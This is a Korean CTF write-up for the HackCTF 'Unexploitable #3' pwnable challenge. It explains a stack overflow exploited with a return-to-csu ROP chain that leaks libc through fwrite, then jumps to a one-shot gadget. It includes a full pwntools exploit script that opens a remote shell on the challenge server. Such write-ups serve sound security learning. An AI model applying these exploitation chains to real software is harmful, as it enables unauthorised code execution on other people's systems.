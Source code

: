 ```yaml
---
title: "[HackCTF]Unexploitable #3"
date: 2019-12-26
ctf: HackCTF
layout: post
---
```


이번에는 RTC 응용해서 fwrite로 익스할 수 있는 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Impossible RTL ha? Nothing for you!\n", 1uLL, 0x24uLL, stdout);
  fgets(&s, 256, stdin);
  return 0;
}
```

메인에서는 리턴 주소 바꿀 수 있다. `gift` 함수를 잘 보면 이번에는 system gadget을 안줬다.

여기서 leak을 할 때 쓸만한 함수는 fwrite 하나밖에 없다. 이를 이용해서 leak을 해주면 된다.

근데 RTC는 인자를 `rdi`, `rsi`, `rdx` 이 3개밖에 못 넣어준다. 

![](https://user-images.githubusercontent.com/32904385/71459626-c38fcb00-27eb-11ea-8be2-fdae1d2716bc.png)

gift함수를 자세히보면 `mov rcx, [rdi] ret` 가젯이 존재했다. 이를 통해서 4번째 인자에 값을 넣어줄 수 있었다.

![](https://user-images.githubusercontent.com/32904385/71471675-a3740200-2813-11ea-9758-b791588b2f58.png)

stdout도 존재하니까 이걸 `mov rcx, [rdi] ret` 를 이용해서 4번째 인자에 넣어주면 된다.

`__libc_csu_init` 영역을 이용해서 `fwrite(fwrite_got,1,6,stdout)`  이런식으로 가젯을 맞춰주면 fwrite을 통해 libc base를 구할 수 있고 메인으로 간다음에 라이브러리 맞춰주고 oneshot gadget구해서 리턴해주면 쉘을 흭득할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Unexploitable_3')
#p = process('./Unexploitable_3')
p = remote('ctf.j0n9hyun.xyz',3034)
libc = e.libc
csu_call = 0x0000000000400720
csu_pop = 0x000000000040073A
mov_ret = 0x0000000000400658 # 00658 mov     rcx, [rdi]
stdout = 0x0000000000601050
prdi = 0x0000000000400743 # pop rdi ; ret

# rdi rsi rdx rcx
def chain(r12,edi,rsi,rdx,ret):
	c = ''
	c += p64(csu_pop)
	c += p64(0)
	c += p64(1)
	c += p64(r12) # call
	c += p64(rdx) # 3
	c += p64(rsi) # 2
	c += p64(edi) # 1
	c += p64(ret)
	return c

payload = '\x90'*0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(stdout)
payload += p64(mov_ret)
payload += chain(e.got['fwrite'],e.got['fwrite'],1,6,csu_call)
payload += chain(0,0,0,0,e.symbols['main'])
p.sendlineafter('!\n',payload)

libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['fwrite']
log.info('libc_base : ' + hex(libc_base))

payload2 = '\x90'*0x10
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('!\n',payload2)

p.interactive()
```

